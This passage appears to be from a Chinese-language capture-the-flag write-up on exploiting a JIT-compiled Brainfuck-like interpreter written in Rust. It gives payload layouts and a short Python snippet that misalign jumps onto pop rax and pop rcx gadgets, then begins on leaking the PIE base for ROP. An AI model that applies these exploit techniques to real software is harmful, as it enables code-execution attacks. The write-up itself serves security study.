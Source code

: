 
### 控制`rax`, `rcx`寄存器

通过以上分析，就可以构造`pop rax`的循环( 程序会在`]`处进行条件跳转，目标是与之对应的`[`结束的位置，故把`payload`分为两段先后送入程序 ):

**值得注意的是，若`payload1`中`[`所对应的跳转地址比`calcLen(payload1)`大，则`rust`会报错**

```
// payload1:
0x00e 		'_' * 0x12
0x020 		'['
0x02a 		(pop rax)

// payload2:
0x00e 		','
0x02b 		','
0x048 		']' -> 0x02a_pop_rax
```

即:

```py
payload1 = b'_'*0x12 + b'['
payload2 = b',,]'
payload1 = payload1.ljust(calcLen(payload2), b'_')
```

测试发现成功控制`rax`;

在此基础上构造循环`pop rcx; pop rax;`:

```
// payload2 = b',,,],]'
// payload1:
0x00e 		'_' * 0x11
0x01f 		'['
0x029 		'_' * 0x14
0x03d 		'['
0x047 		(pop_rcx_rax)

// payload2:
0x00e 		','
0x02b 		','
0x048 		','
0x065		']' -> 0x029_pop_rax
0x06f 		','
0x08c 		']' -> 0x047_pop_rcx_rax
```

---

### 泄露`PIE`偏移

程序实现的`jit`中将`rcx`用于定位写入的地址，一开始的想法是将`rcx`劫持到一块可写可执行的内存区域进行`ret2shellcode`，但是程序中并没有找到合适的空间，同时程序的`plt`表上什么也没有，就只能考虑更麻烦的`ROP`，由于`PIE`的存在，第一步自然是泄露`elf`基址:
